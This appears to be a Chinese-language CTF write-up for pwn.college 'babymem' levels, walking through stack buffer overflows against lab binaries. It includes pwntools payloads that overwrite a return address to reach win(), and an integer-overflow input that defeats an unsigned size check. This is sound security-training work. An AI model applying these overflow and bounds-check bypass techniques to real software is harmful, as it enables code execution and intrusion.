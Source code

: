 这一关略有不同，这次数据是在堆上，但仍然可以找到offset为0x55b735a3b7f0 - 0x55b735a3b6b0 = 320。



#### Level 3

In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffff0827268, 136 bytes after the start of your input buffer.
That means that you will need to input at least 144 bytes (113 to fill the buffer,
23 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

这一关不是修改变量了，而是需要修改返回地址到特定函数。并且题目也解除了canary和地址随机化。我们只需要找到返回地址的offset然后覆盖即可。最终在iPython中使用pwntools实现：

`r.send(b'\x00'*136+b'\x0f\x1d\x40')`

#### Level 4

In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffc2743e7f8, 88 bytes after the start of your input buffer.
That means that you will need to input at least 96 bytes (60 to fill the buffer,
28 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

This challenge is more careful: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. But recall twos compliment, look at how the check is
implemented, and try to beat it!

同样的方法不成功了，这次需要使用一下补码，发送88字节的填充，再加最后8字节的返回地址。

#### Level 5
In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7fffd2297b18, 88 bytes after the start of your input buffer.
That means that you will need to input at least 96 bytes (48 to fill the buffer,
40 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).
This challenge will let you send multiple payload records concatenated together.
It will make sure that the total payload size fits in the allocated buffer
on the stack. Can you send a carefully crafted input to break this calculation?
You will want to overwrite the return value from challenge()
(located at 0x7ffdee130128, 88 bytes past the start of the input buffer)
with 0x402164, which is the address of the win() function.
This will cause challenge() to return directly into the win() function,
which will in turn give you the flag.

和上一题大体相同，如果按照正常的需求输入size，就会报以下错误:
```SHELL
babymem_level5.0: <stdin>:143: challenge: Assertion `record_size * record_num < (unsigned int) sizeof(input)' failed.
```
看到这里用的是无符号数，容易想到可以通过补码来绕过限制。仍然在ipython中进行操作。
```Python
import pwn
r = pwn.process("/challenge/babymem_level5.0")
r.sendline("2")
r.sendline("2147483648")
r.sendline(b'\x00' * 88 + b'\x64\x21\x40\x00\x00\x00\x00\x00')
```
